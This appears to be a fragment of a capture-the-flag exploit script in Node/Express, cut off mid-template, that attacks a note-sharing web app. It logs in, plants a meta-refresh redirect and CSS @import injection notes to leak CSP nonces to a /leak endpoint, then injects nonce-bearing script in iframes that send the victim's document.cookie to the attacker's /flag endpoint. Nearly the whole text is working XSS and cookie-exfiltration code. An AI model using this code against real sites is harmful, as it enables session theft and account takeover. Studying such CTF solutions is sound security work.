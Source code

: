 ``` js
  const response = await fetch(cookieJar, host + '/login', {
    method: 'post',
    headers: {
      'content-type': 'application/x-www-form-urlencoded'
    },
    body: `username=${username}&password=${password}`
  })

  const resp = await createNote('note1', `<meta http-equiv="refresh" content="0;URL=${selfHost}/exp">`)

  await createNote('note2', `<style>@import "${cssUrl}/exp1.css";@import "${cssUrl}/exp2.css";@import "${cssUrl}/exp3.css";</style>`)

  console.log('done')

  await share(0)
  await share(1)

  console.log('report username:', username)
  console.log(await report(username, 0))

  res.send('done')

})

app.get('/leak', async (req, res) => {
    leaks.push(req.query.q)
    console.log('recevied:', req.query.q, leaks.length)
    if (leaks.length === 30) {
      const result = handleLeak()
      // create a new note
      await createNote(
        'note3', 
        result.map(nonce => `<iframe srcdoc="<script nonce=${nonce}>top.location='${selfHost}/flag?q='+encodeURIComponent(top.document.cookie)</script>"></iframe>`)
      );
      await share(2)
      hasToken = true;
      console.log('note3 cteated')
    }
    res.send('ok')
})

app.get('/flag', (req, res) => {
  console.log('flag', req.query.q)
  res.send('flag')
})

app.get('/hasToken', (req, res) => {
  console.log('polling...', hasToken)
  if (hasToken) {
    res.send('hasToken')
  } else {
    res.send('no')
  }
})

app.get('/exp', (req, res) => {
  console.log('visit exp')
  res.setHeader('content-type', 'text/html')
  res.send(`
    <script>
```